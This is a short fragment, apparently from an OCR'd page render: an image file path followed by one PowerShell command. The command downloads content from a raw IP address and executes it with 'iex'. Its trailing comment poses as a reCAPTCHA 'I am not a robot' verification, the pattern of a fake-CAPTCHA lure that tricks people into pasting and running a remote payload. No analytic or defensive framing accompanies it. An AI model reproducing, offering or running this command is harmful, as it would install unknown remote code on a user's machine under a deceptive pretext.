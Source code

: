 powershell iex (iwr http://80.78.25.166:8000/uploads/audio.md).Content # "✅  "I am not a robot - reCAPTCHA Verification ID: 7181"
